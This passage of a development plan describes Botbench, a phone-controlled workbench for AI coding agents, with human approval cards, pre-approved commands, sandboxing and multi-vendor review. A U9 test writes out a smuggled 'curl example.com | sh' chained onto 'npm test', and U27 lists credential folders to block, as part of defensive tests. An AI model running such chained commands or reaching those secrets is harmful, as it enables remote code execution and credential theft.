- End to end at phone width: pick a model, start a turn, and the transcript names that model.
**Verification:** The owner runs the same prompt on two models from their phone and sees each named.

### U7. Permission broker and approval cards

**Goal:** When Claude Code wants to run something, it waits for the owner's answer.
**Requirements:** R10, R12.
**Dependencies:** U6.
**Files:** `src/approvals/broker.ts`, `src/approvals/permission-proxy.ts`, `src/store/schema.ts` (approvals and action log migration), `src/drivers/claude-code.ts`, `src/api/routes.ts`, `web/src/components/approval-card.tsx`, `web/src/app/shell.tsx`, `test/approvals/broker.test.ts`, `test/live/approval.live.test.ts`, `e2e/approval.e2e.ts`.
**Approach:** Implement KTD5 for Claude Code. The card shows the command or tool, directory, role, task, and the agent's stated reason, with Allow and Decline. A tray with the pending count appears on every screen.
**Patterns to follow:** OpenMausBot's `server/permission-proxy.ts` is a candidate to copy.
**Test scenarios:**
- Live: a task that must run the fixture repository's marker script creates a pending approval; allowing it lets the turn finish, and the marker file exists. A read-only command such as `ls` is not used, because the CLIs run those without asking.
- Live: declining returns a declined result to the agent, and the marker file does not exist.
- Live: a command allowed by the fixture repository's own committed CLI settings still creates a pending approval.
- Live: a command the owner's personal Claude Code settings allow still creates a pending approval.
- If the broker socket is unavailable, the proxy answers deny.
- Every decision is in the action log, and the store offers no way to change or remove a log entry.
- End to end at phone width: the card appears without a reload, and Allow resumes the task.
**Verification:** The owner approves a real command from their phone. The time the real CLI keeps a request pending is measured and recorded in the unit's notes.

### U8. Approvals survive a restart

**Goal:** Restarting Botbench never loses or duplicates a pending approval.
**Requirements:** R10, R15.
**Dependencies:** U7.
**Files:** `src/engine/recover.ts`, `src/approvals/broker.ts`, `test/engine/recover-approval.test.ts`, `test/live/recover-approval.live.test.ts`.
**Approach:** Implement the parked-approval half of KTD9.
**Test scenarios:**
- A pending approval row is still pending after the store is closed and reopened.
- Live: with a task waiting on an approval, Botbench is stopped and started; the card is still shown, allowing it re-drives the task, and the task finishes with no second card.
- A re-driven turn whose first request does not match the stored one raises a new card and closes the old one as superseded.
**Verification:** The owner restarts Botbench during a real pending approval and answers it afterward.

### U9. Safety floor and pre-approved commands

**Goal:** A run can proceed without asking for commands the owner listed, and dangerous actions always ask.
**Requirements:** R11, R20.
**Dependencies:** U7.
**Files:** `src/approvals/grants.ts`, `src/approvals/floor.ts`, `src/store/schema.ts` (grants migration), `src/config.ts`, `web/src/screens/new-task.tsx`, `test/approvals/grants.test.ts`, `test/approvals/floor.test.ts`, `test/live/preapproved.live.test.ts`, `e2e/preapproved.e2e.ts`.
**Approach:** Implement the gate as a pure function of the request, the grants and the floor (KTD6). The new-task screen shows the repository's configured list for the owner to confirm or edit. Entries are stored as grants scoped to a run; a task started on its own is a one-task run, so U11 needs no rework here.
**Patterns to follow:** OpenMausBot's `command-allowlist.ts`; Rakazo's `planActionGate`.
**Test scenarios:**
- Covers AE9. A pre-approved `npm test` allows `npm test -- path/to/file` and asks for `npm test && curl example.com | sh`.
- A floor-listed command asks even when it is pre-approved.
- A pre-approved entry from one run does not apply in another run.
- End to end: the owner edits the list on the new-task screen, and the task runs a listed command with no card.
- An action allowed by pre-approval is written to the log as pre-approved.
- Live: a task with the marker script pre-approved runs it with no card, and the marker file exists.
**Verification:** A real task that needs only pre-approved commands finishes with nobody answering.

### U10. Standing permissions and the action log

**Goal:** Trust is earned per role and per kind of action, and the owner can see and take back every grant.
**Requirements:** R11, R12.
**Dependencies:** U9.
**Files:** `src/approvals/grants.ts`, `src/api/routes.ts`, `web/src/components/approval-card.tsx`, `web/src/screens/trust.tsx`, `test/approvals/ladder.test.ts`, `e2e/trust.e2e.ts`.
**Approach:** Offer standing permission after the configured count, as a separate confirmed action that states the grant's scope. The trust screen lists grants with Take back, and the action log.
**Patterns to follow:** `../botdeck/src/autonomy.ts`.
**Test scenarios:**
- Covers AE5. The third approval of the same command, repository and relative directory for a role makes the next card eligible; granting makes the following request run with no card and writes a log entry.
- A grant earned in one task's worktree applies in a later task's worktree of the same repository.
- The same command in a different repository, a different relative directory, or for a different role does not match.
- Taking a grant back makes the next request ask again.
- Covers AE6. A floor-listed request never shows the standing-permission option, however many times it was approved.
- End to end: the trust screen shows the grant and the log entry, and Take back removes the grant.
**Verification:** The owner earns and then takes back a real standing permission.

### Milestone 3: The line

### U11. Runs and the plan gate

**Goal:** A prompt or spec becomes a task list the owner edits and approves.
**Requirements:** R1, R2.
**Dependencies:** U6.
**Files:** `src/store/schema.ts` (runs migration), `src/engine/run.ts`, `src/engine/roles.ts`, `src/api/routes.ts`, `web/src/screens/new-run.tsx`, `web/src/screens/run.tsx`, `test/engine/plan.test.ts`, `test/live/plan.live.test.ts`, `e2e/plan.e2e.ts`.
**Approach:** The planner runs read-only in its own detached worktree (KTD5) and is told to produce independent tasks. Botbench validates the returned list; an invalid plan goes back to the planner once and is then shown to the owner as an error. The new-run screen carries the pre-approved command list from U9 for the owner to confirm (R20). The run screen offers edit, add, delete, Approve, Request changes with feedback, and Cancel.
**Test scenarios:**
- Live: a prompt against a temporary repository returns a valid task list with acceptance criteria, and the source checkout is unchanged.
- Live: a planner edit attempt is refused.
- Live: requesting changes calls the planner again with the feedback, and no task worktree exists yet.
- Editing a plan after approval is refused. A missing spec file is rejected before the run is created.
- End to end: edit a task's title, delete a task, and approve.
**Verification:** The owner approves a real plan from their phone.

### U12. Build station with setup commands

**Goal:** An approved plan builds, one task at a time.
**Requirements:** R3, R20.
**Dependencies:** U11, U9.
**Files:** `src/engine/stations.ts`, `src/engine/run.ts`, `src/worktrees.ts`, `test/engine/build.test.ts`, `test/live/build.live.test.ts`.
**Approach:** Implement the task stations in KTD8 up to building. Run setup commands in each new worktree and store their output as evidence.
**Test scenarios:**
- Covers AE1. Deleting one of three planned tasks and approving creates exactly two task worktrees.
- A failing setup command is reported with its output before any agent turn starts.
- Live: a two-task run builds the first task fully before starting the second, and each ends with Botbench's commit.
- Cancelling a run stops the active turn and leaves finished tasks' branches in place.
- Covers AE8. Live: a two-task run whose agents use only pre-approved commands and worktree edits reaches the end of build with no approval answered.
**Verification:** A real two-task run builds on the owner's machine.

### U13. Verify station

**Goal:** Every built task carries the output of the project's own checks.
**Requirements:** R4.
**Dependencies:** U12.
**Files:** `src/checks.ts`, `src/engine/stations.ts`, `web/src/screens/run.tsx`, `test/checks.test.ts`, `test/engine/verify.test.ts`, `e2e/verify.e2e.ts`.
**Approach:** Run each configured check in the worktree with a time limit, and attach output and exit status as evidence.
**Test scenarios:**
- A passing check and a failing check are each stored with output and exit status.
- Covers AE3. A failing check marks the task as failed verification, and the run still reaches awaiting decision.
- A check that exceeds its time limit is killed, with its child processes, and recorded as timed out.
- End to end: the run screen shows failed verification with text as well as colour, and the check output opens.
**Verification:** A real run shows real test output on its task.

### U14. Decisions: accept and reject

**Goal:** The owner closes each task with a recorded decision and knows exactly what they now have.
**Requirements:** R6.
**Dependencies:** U13.
**Files:** `src/engine/run.ts`, `src/api/routes.ts`, `web/src/screens/run.tsx`, `test/engine/decision.test.ts`, `e2e/decision.e2e.ts`.
**Approach:** After Accept, show the branch name and worktree path with copy buttons and a note that nothing was merged or pushed. Reject asks, with a confirmation, whether to keep or discard the branch.
**Test scenarios:**
- Accepting keeps the branch, removes the clean worktree, and records the decision.
- Rejecting with discard removes the branch and worktree; rejecting with keep leaves the branch.
- Deciding a task that is not awaiting decision is refused.
- The run becomes done only when every task is decided.
**Verification:** The owner accepts one real task and merges its branch by hand.

### U15. Run recovery after restart

**Goal:** A restart mid-run costs at most one retried turn.
**Requirements:** R15.
**Dependencies:** U12, U8.
**Files:** `src/engine/recover.ts`, `src/api/routes.ts`, `web/src/screens/run.tsx`, `test/engine/recover.test.ts`, `test/live/recover.live.test.ts`, `e2e/resume.e2e.ts`.
**Approach:** Implement the rest of KTD9.
**Test scenarios:**
- A finished task is not rebuilt after a restart, and a run awaiting plan approval is still awaiting it.
- Live: Botbench is killed during a build turn; on start the task is re-driven from its resume cursor and finishes.
- A second interruption marks the task interrupted.
- End to end: the run screen shows the interrupted task with Resume, and Resume re-drives it.
**Verification:** The owner kills Botbench during a real run and it completes after start.

### U16. Runs board

**Goal:** One screen answers "what needs me, what is running, what finished".
**Requirements:** R13.
**Dependencies:** U14.
**Files:** `web/src/screens/board.tsx`, `web/src/screens/settings.tsx`, `src/api/routes.ts`, `test/api/board.test.ts`, `e2e/board.e2e.ts`.
**Approach:** Order runs that need the owner first, then running work, then finished runs collapsed. On a phone the board is one column with a station selector. An empty board links to New run, and to settings when no driver is available. Settings is created here with one real section: each driver as available, signed out, or unsupported.
**Test scenarios:**
- Runs created in each state appear under the right station, with needs-owner runs first.
- With no runs, the first-run state is shown.
- End to end at phone width: the station selector switches the visible station.
**Verification:** The owner's real runs appear correctly on their phone.

### Execution isolation (added 22 November 2026, ADR 0002)

Requirement **R27.** The commands an agent runs cannot read the owner's vendor sign-ins, Keychain, SSH keys or cloud credentials, and cannot reach the network unless the owner allowed it for that repository. A driver that cannot enforce this is offered for read-only roles only.

### U27. Confined commands for Claude Code

**Goal:** A command an agent runs through Claude Code cannot read secrets outside its worktree or reach the network, and Botbench's approval gate still fires.
**Requirements:** R27, R10, R8.
**Dependencies:** U9.
**Files:** `src/drivers/claude-code.ts`, `src/drivers/launch.ts`, `src/config.ts`, `docs/security/threat-model.md`, `test/drivers/`, `test/live/sandbox.live.test.ts`.
**Approach:** Pass Claude Code's sandbox settings on the command line with the gate settings: enabled, fail if unavailable, `autoAllowBashIfSandboxed` false, no unsandboxed commands, an unreadable list (vendor sign-in folders, `~/Library/Keychains`, `~/.ssh`, cloud credential folders, Botbench's own data folder), and an empty network allowlist. Deny the CLI's own file tools outside the worktree by rule. A per-repository network allowance is owner configuration. A sandbox denial is reported in the transcript in plain words.
**Test scenarios:**
- The launch settings contain every key above; a missing sandbox stops the turn with a plain reason.
- Live: a command that reads a decoy file outside the worktree fails and the transcript says it was blocked.
- Live: a command that reads the Keychain item or a decoy in a sign-in folder fails, and the CLI's own turn still works.
- Live: a command that reaches the network fails with no allowance, and succeeds for a host the repository's settings allow.
- Live: a command still raises an approval card with the sandbox on.
- Setup and check commands run under the same confinement.
**Verification:** The owner runs a real task and sees a blocked read reported.

### U28. One container per task

**Goal:** Where a container runtime is present, an agent's shell commands run in a container that holds only the task's worktree.
**Requirements:** R27.
**Dependencies:** U27, U15.
**Approach:** The execution environment becomes a named seam with two kinds: confined on the host (U27) and container. For the container kind, Botbench starts one container per task with the worktree mounted, no network and no credentials, rewrites each approved shell command into it through the permission answer, and removes it when the task is decided or cancelled. Settings shows which kind each task used. The owner chooses the image per repository.
**Test scenarios:**
- Live: a command sees the worktree, writes a file that appears on the task branch, and cannot see a decoy outside the mount or reach the network.
- With no container runtime, tasks run confined on the host and the screen says so.
- A restart finds and removes containers of finished tasks; none is left after a run.
**Verification:** The owner runs a real task whose checks install dependencies inside the container.

The Codex driver (U17) applies its own permissions profile to meet R27. Grok and Antigravity are offered for read-only roles until theirs is shown to hold.

### Autonomy and delivery (added 22 November 2026, owner direction)

North Star (owner, 22 November 2026): **two developers, each with their own Botbench and their own agents, deliver one piece of work together** — their workbenches aware of each other, their changes compatible and reviewable, with far less coordination between the two people. The single-owner line (from my phone I hand Botbench a piece of work, walk away, and come back to a branch I can trust, built and reviewed by more than one vendor's agent) is the foundation each developer stands on, not the goal.

- **Review and refine.** Another vendor's agent reviews the builder's diff; its concerns go back to the builder, which fixes or explains; the reviewer looks again. Capped rounds.
- **Three modes per run.** Manual: every step asks. Semi-autonomous: confined commands run without asking; the owner approves the plan and makes the final decision. Fully autonomous: no plan approval, and the task is accepted without the owner when every configured check passed and the reviewer is satisfied; dangerous actions are refused, never asked. It refuses to start on a repository with no checks.
- **Deliver.** A run can be set to open a pull request for each accepted task. Botbench itself pushes the task's branch and opens the pull request with the owner's own `git` and `gh`; agents never hold the credentials. Never the default branch, never by force, never a merge. A ledger makes a restart unable to open a second one.
- **Intake (next).** A GitHub issue or the owner's feedback becomes a run. Outside text is untrusted: a run that read it is marked, and its commands lose pre-approved and standing permissions.
- **Composer.** Chat, New task and New run become one message box; repository, mode and review are set from an add-context sheet; voice input is transcribed on the owner's Mac.

### Milestone 6: Peers — two workbenches on one repository (added 22 November 2026)

The owner's North Star test on 22 November ran two Botbench installations as two developers on this repository: six GitHub issues, eight pull requests, coordination only through GitHub. It worked, and it showed what two workbenches lack: every installation numbers its runs from 1, so branch names collide on the shared remote; neither can see what the other is working on; one issue can be taken twice; and two changes that are each correct can still fail to fit together.

Built in this order, each step proven by two real installations on one repository before the next starts:

- **P1. A workbench has a name, and its branches carry it.** `botbench/<workbench>/run-N/task-M`. Old branch names keep working. Two installations can never produce the same branch name.
- **P2. Each workbench sees the others' work on the shared remote.** Read-only, through `gh`: open pull requests and pushed branches from other workbenches, the issue each belongs to, and the files each touches. The composer warns before starting work on an issue another workbench already has, or on files an open pull request from another workbench changes. No new trust boundary: it reads what GitHub already shows the owner.
- **P3. Taking an issue is visible.** When a run starts from an issue, the workbench says so where the other can see it (the smallest write to GitHub that does this, behind the owner's choice), and releases it when the run ends without a pull request.
- **P4. A shared check for work that must fit together.** Two issues are linked as one piece of work with one check that both branches must pass together (a merged scratch branch, run in the confinement). "Compatible" is something that ran, not something two agents said.
- **P5. Workbenches talk directly.** Pairing, typed messages scoped to one repository, questions and interface proposals between the two developers' agents, each owner approving what leaves and what is acted on. Messages are outside text. This needs its own decision record and threat review before any code (`docs/product/peers-concept.md`).

One end-to-end test per step, run on two installations. P1 to P3 need no new transport and no new trust boundary beyond one small write to GitHub.

### Milestone 4: Every subscription

### U26. Connect a subscription from the client

**Goal:** Adding Codex, Gemini or Grok is something the owner does from the settings screen, not in a terminal.
**Requirements:** R8, R26, R21, R24.
**Dependencies:** U16.
**Files:** `src/drivers/connect.ts`, `src/drivers/contract.ts`, `src/api/routes.ts`, `web/src/screens/settings.tsx`, `web/src/components/connect-sheet.tsx`, `test/drivers/connect.test.ts`, `test/live/connect.live.test.ts`, `e2e/connect.e2e.ts`, `docs/security/threat-model.md`.
**Approach:**
1. Each driver names its CLI's sign-in command and the kind of flow it gives. Checked on the installed CLIs: Codex and Grok offer device-code sign-in (`--device-auth`), which works from a phone. Claude Code's `auth login` gives a link. Gemini CLI's flow has to be established on the real CLI first.
2. Botbench runs that command as a child process with the same launch isolation as a turn, reads the link and code it prints, and shows them in a sheet with one action: open the vendor's sign-in page. It then waits for the CLI to report success and re-probes the driver.
3. A CLI whose sign-in can only finish in a browser on the Mac itself is shown as "sign in on the Mac", with the exact command. Botbench does not work around it.
4. Botbench stores nothing from the flow. The link and code are held in memory for the sheet and never written to the database or the log.
5. Disconnecting runs the CLI's own sign-out command.
**Test scenarios:**
- Parsing the link and device code is tested on output captured from each real CLI's sign-in command, stored with its version and date.
- Live: starting the flow for a signed-out CLI (an empty configuration directory) returns a real link and code from the vendor, and cancelling leaves no child process.
- Nothing from the flow appears in the database, the event log or the server log.
- The connect routes need a session, and only one flow per driver runs at a time.
- End to end: settings shows a signed-out driver with Connect, the sheet shows the vendor's link and code, and after the CLI reports success the driver shows as available without a reload. The success step uses a session captured from one real completed sign-in, since a test cannot sign in to a vendor.
**Verification:** The owner connects Codex from their phone and then runs a turn on it.

### U17. Codex driver

**Goal:** Codex passes the same driver scenarios as Claude Code, including approvals.
**Requirements:** R7, R8, R10.
**Dependencies:** U7. Codex signed in.
**Files:** `src/drivers/codex.ts`, `src/drivers/codex-protocol.ts`, `test/live/codex.live.test.ts`, `test/live/conformance.live.test.ts`.
**Approach:** Type the protocol from the schema `codex app-server generate-json-schema` emits. Map server-to-client approval requests to the broker. Apply KTD4 launch rules. Codex's app server has no flag to ignore personal settings, so isolation is done by setting approval policy and sandbox explicitly on each thread and passing `-c` overrides that empty the MCP server and hook configuration. If a command the owner's own Codex rules allow still runs without a card, Codex reports the capability as missing (KTD5). Move the scenarios from U3 and U7 into one conformance suite every driver must pass.
**Test scenarios:**
- Live conformance for Claude Code and Codex: one-word turn, resume, interrupt, a permission request allowed and one declined, usage recorded, login and version probe.
- With `OPENAI_API_KEY` set in the parent, the child environment does not contain it.
- A capability the CLI lacks, such as resume, is reported through its capability flag and not faked.
- Live: a command allowed by the owner's own Codex rules still creates a pending approval, or the driver reports interception as missing.
**Verification:** A real task builds on Codex in the client.

### U18. Gemini CLI driver

**Goal:** Gemini CLI passes the conformance suite through an Agent Client Protocol client.
**Requirements:** R7, R8, R10.
**Dependencies:** U7, U17. Gemini CLI signed in.
**Files:** `src/drivers/acp/client.ts`, `src/drivers/acp/gemini.ts`, `test/live/gemini.live.test.ts`, `test/live/conformance.live.test.ts`.
**Approach:** Write the ACP client once, started with `gemini --acp`. Route its permission requests to the broker. Gemini CLI applies folder trust, and every task worktree is a new path, so the driver handles trust explicitly for the worktree.
**Test scenarios:**
- Live conformance passes for Gemini CLI in a freshly created worktree.
- With `GEMINI_API_KEY` set in the parent, the child environment does not contain it.
**Verification:** A real task builds on Gemini CLI in the client.

**Note (2026-11-23):** the shipped driver is Antigravity (`agy`), used as a reviewer and in chat; since #132 with its own tools, through its ACP server (`agy acp`) on Botbench's own Google profile. It is not an ACP client and cannot build.

### U19. Grok driver

**Goal:** Grok passes the conformance suite, reusing the ACP message handling.
**Requirements:** R7, R8, R10.
**Dependencies:** U18. Grok signed in.
**Files:** `src/drivers/acp/grok.ts`, `web/src/screens/settings.tsx`, `test/live/grok.live.test.ts`, `test/live/conformance.live.test.ts`.
**Approach:** Start `grok agent stdio` and reuse the ACP client from U18. If the live conformance run shows permission requests are not delivered, Grok is offered for the read-only planner and reviewer roles only, and the settings screen says so.
**Test scenarios:**
- Live conformance passes for Grok for every capability it reports.
- A role Grok cannot serve safely cannot be assigned to it.
**Verification:** A real planner or reviewer turn runs on Grok in the client.

### U20. Roles and the reviewer station

**Goal:** Each role runs on the driver and model the owner chose, and a different model reviews the diff.
**Requirements:** R5, R7.
**Dependencies:** U13, U17, U18.
**Files:** `src/engine/roles.ts`, `src/engine/stations.ts`, `web/src/screens/settings.tsx`, `web/src/screens/new-run.tsx`, `test/engine/review.test.ts`, `test/live/review.live.test.ts`, `e2e/roles.e2e.ts`.
**Approach:** Settings gains the role assignments: one driver and model per role. The reviewer runs read-only in the task worktree and attaches its critique as evidence.
**Test scenarios:**
- Live: a run with Claude Code as implementer and Codex as reviewer attaches a critique to the task.
- Live: a reviewer edit attempt is refused.
- Enabling the reviewer with the same model as the implementer is rejected when the run is created.
- A signed-out driver cannot be assigned to a role.
**Verification:** A real run on the owner's machine uses three different vendors for its three roles.

### U21. Handoff between drivers and rate-limit fallback

**Goal:** A task can move to another subscription and keep going.
**Requirements:** R9.
**Dependencies:** U12, U17, U18.
**Files:** `src/engine/handoff.ts`, `src/engine/stations.ts`, `web/src/screens/run.tsx`, `web/src/screens/settings.tsx`, `test/engine/handoff.test.ts`, `test/live/handoff.live.test.ts`, `e2e/handoff.e2e.ts`.
**Approach:** Build the owner's "move to another driver" action first (KTD11). Settings gains the ordered fallback list per role in this unit, since this is where it starts to do something. Then trigger the same path from each driver's normalized rate-limit event, with the blocked state and automatic resume at the reset time when no fallback remains. The automatic trigger for a driver is enabled only once a real rate-limit event from that CLI has been captured and its parsing tested.
**Test scenarios:**
- Covers AE4. Live: a task is moved from Claude Code to Gemini CLI mid-build and finishes in the same worktree, and the run records the switch.
- Live: the second driver's first message is the handoff prompt, and its attempt row holds no resume cursor from the first driver.
- End to end: the owner moves a task to another driver from the run screen.
- A blocked task with a reset time in the past is resumed on start.
**Verification:** The owner moves a real task between two subscriptions.

### U22. Usage ledger and dashboard

**Goal:** The owner sees which subscriptions worked and what metered use cost.
**Requirements:** R13.
**Dependencies:** U16.
**Files:** `src/usage.ts`, `src/store/schema.ts` (usage migration), `src/api/routes.ts`, `web/src/screens/usage.tsx`, `test/usage.test.ts`, `e2e/usage.e2e.ts`.
**Approach:** Implement KTD10. Aggregate by local day, driver, model and run. Follow the `dataviz` skill's chart rules, and give every chart a table view.
**Patterns to follow:** `../botdeck/src/dashboard.ts`.
**Test scenarios:**
- A turn on a subscription login is stored with no dollar amount, even when the CLI printed a cost, and is excluded from every dollar total.
- A turn on a metered login stores the growth in the CLI's running total.
- A model with no configured price is listed as unpriced, not as zero dollars.
- A driver with no turns this week is shown with zero turns, not missing.
- Totals per run equal the sum of that run's tasks.
**Verification:** After real runs on two vendors, the dashboard's figures match the ledger rows.

### Milestone 5: In your pocket

### U23. Phone app: install and notifications

**Goal:** Botbench lives on the owner's home screen and tells them when it needs them.
**Requirements:** R23, R24.
**Dependencies:** U7, U2, U14, U16.
**Files:** `web/public/manifest.webmanifest`, `web/src/sw.ts`, `web/src/app/notifications.tsx`, `src/push.ts`, `src/store/schema.ts` (push subscriptions migration), `web/src/screens/settings.tsx`, `src/api/routes.ts`, `test/push.test.ts`, `e2e/install.e2e.ts`.
**Approach:** Implement KTD16 over the HTTPS address from KTD14. The owner turns notifications on per device from settings. Automated browsers often cannot subscribe to a real push service, so subscription and delivery are proven on the owner's phone. Notification text follows KTD16's limit.
**Test scenarios:**
- The manifest and service worker meet the browser's install criteria in an end-to-end check, and the service worker registers on the HTTPS origin.
- Turning notifications on stores a subscription for that device, and turning them off removes it.
- A new pending approval sends one push message per subscribed device, whose payload contains no command text or code.
- A task reaching awaiting decision sends one push message per subscribed device, under the same payload limit.
- A subscription the push service reports as expired is removed.
- End to end: activating a notification opens the pending approval card.
**Verification:** Covers AE11. The owner installs Botbench on their iPhone, receives a notification for a real approval, and answers it from the notification.

### U24. First-run path and README

**Goal:** A new user gets from clone to a finished run in 15 minutes and knows exactly what stays on their machine.
**Requirements:** R16, R24.
**Dependencies:** U16.
**Files:** `README.md`, `web/src/screens/settings.tsx`, `e2e/first-run.e2e.ts`.
**Approach:** The README leads with the headline and tagline, then install, first run, roles, commands, phone access, and a plain section on what stays local and what each vendor CLI sends to its provider.
**Test scenarios:**
- End to end: on a fresh data directory with one signed-in CLI, starting Botbench and following the first-run screen reaches a started run with no manual file editing.
**Verification:** The owner times a first run from a fresh clone on a second machine or user account.

---

## Verification Contract

| Gate | Command or check | Applies to |
|---|---|---|
| Types | `npm run typecheck` | every unit |
| Tests | `npm test` | every unit |
| Live tests | `npm run test:live`, on the owner's machine with the CLIs signed in | U3, U6 to U9, U11, U12, U15, U17 to U21 |
| End to end | `npm run e2e`, a real browser against a real Botbench process | every unit with a file under `web/` |
| Client build | `npm run build --prefix web` | every unit with a file under `web/` |
| No fakes | A search of `src/`, `web/` and `test/` finds no mock library, no fake CLI and no demo data | every unit |
| Owner check | The unit's Verification line, done by the owner on real work | every unit |

## Definition of Done

- Every requirement R1 to R24 in this plan is met, and every acceptance example AE1 to AE11 is covered by a passing test.
- All gates in the Verification Contract pass.
- Each milestone's owner checks were done before the following milestone was declared finished. They never block starting the next unit.
- `NOTICE` lists every copied file with its source and licence, and nothing originates from OpenMausBot's `enterprise/` directory.
- Code from abandoned approaches is removed from the diff.
